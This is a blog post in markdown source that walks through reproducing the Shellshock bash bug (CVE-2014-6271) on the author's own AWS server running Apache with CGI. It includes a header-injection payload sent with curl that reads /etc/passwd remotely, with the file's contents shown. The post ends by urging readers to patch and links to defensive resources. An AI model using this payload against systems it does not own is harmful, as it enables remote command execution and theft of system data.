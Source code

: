 ```yaml
---
layout: post
title: Shellshock DIY
category: posts
image: shellshock/header.png
---
```


When news of Shellshock first broke, the main vector of attack was any application running on an Apache server via cgi. I don't run any apache servers anymore, and if I did I probably wouldn't be running them with CGI (just not my preference). However, I wanted to try this bug out and I didn't want to do so in a malicious manner; I simply wanted to see what it did.

Without further ado, let's hack ourselves!

First we'll go create an EC2 instance on AWS. My preference is to use Ubuntu because I know it best and I'm able to find solutions to issues I encounter very quickly.

After our instance is up and running we'll ssh into it and check if the default version of bash is vulnerable.

{% highlight bash %}
$ ssh -l ubuntu [Your IP address] -i ~/.ssh/shellshock.pem
$ env X="() { :;} ; echo busted" /bin/bash -c "echo completed"
busted
completed
{% endhighlight %}

Oh heck yeah, it totally is.

(Side note: I'm using an old AWS image I made a few months ago. I believe Amazon patched bash on all their default images. If bash is already patched on your machine, my next suggestion is to find a vagrant image that isn't patched yet. If you can't, leave a comment below. I can post a tutorial on how to compile an old, vulnerable version of bash and replace the patched one on your box; for science!) 

Ok next step: installing apache and configuring it to use cgi.

{% highlight bash %}
sudo apt-get install apache2
sudo a2enmod cgi
{% endhighlight %}

That was easy. We need to tell apache when to use cgi. We'll do that by adding the following somewhere in the config of a site in our enabled virtual hosts folder (`/etc/apache2/sites-enabled`; in our case the exact file is `/etc/apache2/sites-enabled/000-default.conf`):

{% highlight apache %}
ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
<Directory "/usr/lib/cgi-bin">
  AllowOverride None
  Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
  Order allow,deny
  Allow from all
</Directory>
{% endhighlight %}

My complete apache configuration file for the virtual host we'll be using looks like this:

{% highlight apache %}
<VirtualHost *:80>
  ServerAdmin webmaster@localhost
  DocumentRoot /var/www/html

  ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
  <Directory "/usr/lib/cgi-bin">
    AllowOverride None
    Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
    Order allow,deny
    Allow from all
  </Directory>

  ErrorLog ${APACHE_LOG_DIR}/error.log
  CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
{% endhighlight %}

Add a file called `poc.cgi` to `/usr/lib/cgi-bin` with the following contents:

{% highlight bash %}
#!/bin/bash

echo "Content-type: text/html"
echo ""

echo '<html>'
echo '<head>'
echo '<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">'
echo '<title>PoC</title>'
echo '</head>'
echo '<body>'
echo '<pre>'
/usr/bin/env
echo '</pre>'
echo '</body>'
echo '</html>'

exit 0
{% endhighlight %}

Note: the contents of this file can be anything, as can the filename. In our case the file just needs to exist. I chose to copy the bash script above from [https://www.invisiblethreat.ca/2014/09/cve-2014-6271/](https://www.invisiblethreat.ca/2014/09/cve-2014-6271/) because it's an easy way to check that apache is configured correctly.

Additional Note: you may need to change the permissions of this file and directory. If you get a 403 error, try `sudo chmod 755 -R /usr/lib/cgi-bin`.

Now let's restart apache.

{% highlight bash %}
sudo services apache2 restart
{% endhighlight %}

If everything went according to plan, we should be able to run this script via cgi and have the result returned to us. Let's see if that works:

{% highlight bash %}
~
❯ curl http://[Your IP Address]/cgi-bin/poc.cgi
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>PoC</title>
</head>
<body>
<pre>
SERVER_SIGNATURE=<address>Apache/2.4.7 (Ubuntu) Server at [Your IP Address] Port 80</address>

HTTP_USER_AGENT=curl/7.30.0
SERVER_PORT=80
HTTP_HOST=[Your IP Address]
DOCUMENT_ROOT=/var/www/html
SCRIPT_FILENAME=/usr/lib/cgi-bin/poc.cgi
REQUEST_URI=/cgi-bin/poc.cgi
SCRIPT_NAME=/cgi-bin/poc.cgi
REMOTE_PORT=34236
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
CONTEXT_PREFIX=/cgi-bin/
PWD=/usr/lib/cgi-bin
SERVER_ADMIN=webmaster@localhost
REQUEST_SCHEME=http
HTTP_ACCEPT=*/*
REMOTE_ADDR=[Remote IP Address]
SHLVL=1
SERVER_NAME=
SERVER_SOFTWARE=Apache/2.4.7 (Ubuntu)
QUERY_STRING=
SERVER_ADDR=10.0.0.153
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
_=/usr/bin/env
</pre>
</body>
</html>
{% endhighlight %}

Awesome! Now that everything is set up, let's exploit ourselves.

{% highlight bash %}
~
❯ curl -A "() { foo;};echo;/bin/cat /etc/passwd" http://[Your Server IP]/cgi-bin/poc.cgi
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/zsh

{% endhighlight %}

Great success! We were successfully able to run an arbitrary code execution exploit on a remote machine (that we own).

Now go patch bash!

Resources and helpful links:

- [How to Protect your Server Against the Shellshock Bash Vulnerability](https://www.digitalocean.com/community/tutorials/how-to-protect-your-server-against-the-shellshock-bash-vulnerability)
- [Everything you need to know about the Shellshock Bash bug](http://www.troyhunt.com/2014/09/everything-you-need-to-know-about.html)
- [CVE-2014-6271: BASH LETS YOU DO BAD THINGS. (SHELLSHOCK)](https://www.invisiblethreat.ca/2014/09/cve-2014-6271/)
- [How do I secure Apache against the Bash Shellshock vulnerability?](http://security.stackexchange.com/questions/68146/how-do-i-secure-apache-against-the-bash-shellshock-vulnerability)
- [Shellshock DHCP RCE Proof of Concept](https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/)
- [Bash – ShellShocker – Attacks Increase in the Wild – Day 1](http://blog.sucuri.net/2014/09/bash-shellshocker-attacks-increase-in-the-wild-day-1.html)
